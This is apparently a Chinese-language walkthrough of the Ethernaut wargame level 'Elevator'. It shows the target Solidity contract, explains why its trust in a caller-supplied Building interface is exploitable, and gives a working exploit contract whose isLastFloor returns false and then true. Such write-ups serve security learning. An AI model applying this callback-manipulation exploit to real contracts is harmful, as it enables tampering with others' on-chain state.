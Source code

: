 ## Level_11.Elevator

要求：

> 到达顶层；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

### 分析

给出的合约中有一个接口` Building `和主合约` Elevator `；

函数` goTo `中后半部分的判断应该是：

1. ` if (!building.isLastFloor(_floor)) `处` isLastFloor `应该返回` False `，这样才能往下执行；
2. ` top = building.isLastFloor(floor); `处` isLastFloor `应该返回` True `，这样就能达到题目要求；

但现在的问题是，我们并不知道` isLastFloor `中的逻辑是什么；

注意这一句` Building building = Building(msg.sender); `，若我们(合约)是` msg.sender `，那我们完全可以实现按照我们逻辑的` isLastFloor `函数；

所以，我们只需实现一个我们自己的` isLastFloor `，一开始返回` False `，随后返回` True `即可；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp is Building {
    Elevator public elev;
    bool flag = false;
    // 初始化合约地址
    constructor(address addr){
        elev = Elevator(addr);
    }
    // 实现接口
    function isLastFloor(uint256) external override returns (bool){
        if (flag == false) {
            flag = true;
            return false;
        } else {
            return true;
        }
    }
    // 攻击
    function Attack() public {
        elev.goTo(2);
    }
}
```

![image-20250112021436326](./assets/image-20250112021436326.png)

